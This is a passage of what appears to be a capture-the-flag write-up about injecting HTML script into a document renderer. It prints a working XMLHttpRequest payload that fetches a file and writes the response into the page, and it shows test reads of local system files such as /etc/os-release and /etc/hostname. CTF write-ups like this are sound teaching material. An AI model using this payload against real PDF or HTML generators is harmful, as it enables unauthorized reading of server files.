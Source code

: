 ```cardlink
image: https://www.datocms-assets.com/85623/1738002026-intigriti-blog-tools-featured-exploiting-pdf-generators.jpg?auto=format&fit=max&w=1200
```


I then tested a bunch of HTML script injections that allows me to:
1. copy and paste as text (i.e. responses which are in HTML are not interpreted as such)
2. **full** response text.

I ended up going with this script.
```html
<script>
    var x = new XMLHttpRequest();
    x.onreadystatechange = function() {
        if (x.readyState === 4) {
            document.open();
            document.write('<html><body style="font-size: 1px"><pre id="code"></pre></body></html>');
            document.close();
            document.getElementById("code").textContent = x.responseText;
        }
    };
    x.open('GET', '<web/file>', true);
    x.send();
</script>
```

Here are some test queries I did that aren't particularly useful for this CTF.
`file:///etc/os-release`
![](../../../assets/tisc2025/84ce47ca49bbfc6b2f6d0ccf3fa09ec6.png)

`file:///etc/hostname`
![](../../../assets/tisc2025/1389717337afbe959ca1bcc470efe51c.png)
